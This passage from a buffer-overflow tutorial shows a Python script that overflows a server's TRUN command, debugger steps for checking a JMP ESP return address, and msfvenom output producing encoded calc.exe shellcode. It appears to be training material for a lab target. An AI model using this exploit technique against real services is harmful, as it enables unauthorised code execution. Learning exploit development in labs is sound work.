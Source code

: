 ```python
buff += b'E'*128            # 
buff += b'F'*128            # 
buff += b'G'*64             # 
buff += b'H'*64             # 
buff += b'I'*32             # 
buff += b'J'*32             # 

try:
	print(f'[+] Sending buffer: {str(len(buff))} bytes')
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((address,port))
	s.recv(1024)			
	s.send(b"TRUN /.:/%s" % buff) 
except RuntimeError as err:
	print(f'[!] Unable to connect to the application. {err}')
	sys.exit(0)
finally:
	s.close()

```

Now to verify if everything is in place we can add a breakpoint at the JMP ESP address.

Search for the address space

![find_address](https://raw.githubusercontent.com/justin-p/my-notes-and-snippets/master/.gitbook/assets/IMG/bufferoverflow_example/BO_find_address.png)

Press F2 to add a breakpoint

![breakpoint](https://raw.githubusercontent.com/justin-p/my-notes-and-snippets/master/.gitbook/assets/IMG/bufferoverflow_example/BO_breakpoint.png)

Now if we run our python script we can verify that EIP is pointing at the JMP ESP

![stoped_on_JMP_ESP](https://raw.githubusercontent.com/justin-p/my-notes-and-snippets/master/.gitbook/assets/IMG/bufferoverflow_example/BO_stoped_on_JMP_ESP.png)

## Generate Shellcode

Now that everything is in place we can generate our shellcode. We can do this with MSFvenom.

The command below will generate shellcode that will start the windows calculator.

```
root@kali:/mnt/hgfs/_shared_folder/BO# msfvenom -p windows/exec CMD=calc.exe -b '\x00\' -f c
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 220 (iteration=0)
x86/shikata_ga_nai chosen with final size 220
Payload size: 220 bytes
Final size of c file: 949 bytes
unsigned char buf[] = 
"\xbb\xbb\x2a\xfd\xc1\xdb\xd4\xd9\x74\x24\xf4\x5d\x33\xc9\xb1"
"\x31\x83\xed\xfc\x31\x5d\x0f\x03\x5d\xb4\xc8\x08\x3d\x22\x8e"
"\xf3\xbe\xb2\xef\x7a\x5b\x83\x2f\x18\x2f\xb3\x9f\x6a\x7d\x3f"
"\x6b\x3e\x96\xb4\x19\x97\x99\x7d\x97\xc1\x94\x7e\x84\x32\xb6"
"\xfc\xd7\x66\x18\x3d\x18\x7b\x59\x7a\x45\x76\x0b\xd3\x01\x25"
"\xbc\x50\x5f\xf6\x37\x2a\x71\x7e\xab\xfa\x70\xaf\x7a\x71\x2b"
"\x6f\x7c\x56\x47\x26\x66\xbb\x62\xf0\x1d\x0f\x18\x03\xf4\x5e"
"\xe1\xa8\x39\x6f\x10\xb0\x7e\x57\xcb\xc7\x76\xa4\x76\xd0\x4c"
"\xd7\xac\x55\x57\x7f\x26\xcd\xb3\x7e\xeb\x88\x30\x8c\x40\xde"
"\x1f\x90\x57\x33\x14\xac\xdc\xb2\xfb\x25\xa6\x90\xdf\x6e\x7c"
"\xb8\x46\xca\xd3\xc5\x99\xb5\x8c\x63\xd1\x5b\xd8\x19\xb8\x31"
"\x1f\xaf\xc6\x77\x1f\xaf\xc8\x27\x48\x9e\x43\xa8\x0f\x1f\x86"
"\x8d\xe0\x55\x8b\xa7\x68\x30\x59\xfa\xf4\xc3\xb7\x38\x01\x40"
```